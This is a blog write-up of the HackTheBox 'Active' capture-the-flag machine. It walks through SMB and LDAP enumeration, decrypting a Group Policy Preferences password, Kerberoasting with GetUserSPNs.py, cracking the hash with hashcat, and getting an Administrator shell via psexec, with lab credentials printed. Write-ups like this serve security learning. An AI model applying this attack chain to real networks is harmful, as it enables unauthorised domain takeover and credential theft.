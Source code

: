 ```yaml
---
layout: post
title: Active writeup.
subtitle: From HackTheBox CTF platform.
cover-img: /assets/img/active.png
thumbnail-img: /assets/img/active.png
share-img: /assets/img/active.jpg
tags: [hackthebox, ctf, meduim, windows, active directory, kerberoasting, ]
---
```


# Active 

![hackthebox active](/assets/img/active.png)

## Nmap
first  I started with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 12:29 CDT
Nmap scan report for 10.10.10.100
Host is up (0.12s latency).
Not shown: 983 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

A lot of ports open but I can see kerberos,ldap and active directory so I started by enumerating ldap using `ldapsearch` 

```bash
ldapsearch -x -h 10.10.10.100 -b “DC=active,DC=htb”
```
I didn't get any useful info. 

I tried nmap script also. No info. 

then I did enum4linux 

`enum4linux 10.10.10.100`

no usefull info except for listing smb shares: 

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available
```

I tried smbmap but didn't work ( authorization ) 

Also, I tried this but nothing worked: 

```
   16  nmblookup -A 10.10.10.100
   17  ping 10.10.10.100
   18  nmblookup 10.10.10.100
   19  smbmap -H 10.10.10.100
   20  smbclient -U "" -no-pass -L 10.10.10.100 
   21  enum4linux 10.10.10.100
   18  rpcclient -U "" -N 10.10.10.100
```

Additionally:

```
Host script results:
|_clock-skew: 12h13m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
```
So no relay attacks will work because Message signing is enabled and required. 

After trying smbclient I managed to connect anonymously to the directory `Replication` using:
```bash
smbclient //10.10.10.100/Replication 
```
It is a copy of the SYSVOL ( read about it here: https://adsecurity.org/?p=2288 )

After enumerating the folders and getting the files, I found an xml file that contains: 


```bash
the user: svc_tgs 
password: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
 
 Its AES and we are going to decrypt it using gpp-decrypt 
 gpp-decrypt ‘AESpassword’

```

Got the password: `GPPstillStandingStrong2k18`

I managed to connect using smbclient using the credentials. 

I got the flag from Desktop

Now I decided t to enumerate ldap users so I used:

```bash
ldapsearch -x -h 10.10.10.100 -D "svc_tgs" -W 'GPPstillStandingStrong2k18' -p 389 -b "CN=SVC_TGS,CN=Users,DC=active,DC=htb" -s sub "(&(objectclass=person)(objectclass=user))"  I got tons of info
```

Then I used GetADusers.py 

```bash
GetADUsers.py -dc-ip active.hbt/svc_tgs:GPPstillStandingStrong2k18
```
## root

back to nmap we need to do kerbroasting:

Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated
with a particular service instance. ldapsearch can be used to identify accounts that are
configured with SPNs.

So we will use `GetUsersSPN.py` 

`GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request`

After we get the hash, we crack it using hashcat: 

```bash
hashcat -m 13100 hashtocrack.txt /home/qunix/bugbounty/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt --force
```

we get the `Administrator` password: `Ticketmaster1968`​

Now to get the shell I tried using psexec. 

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```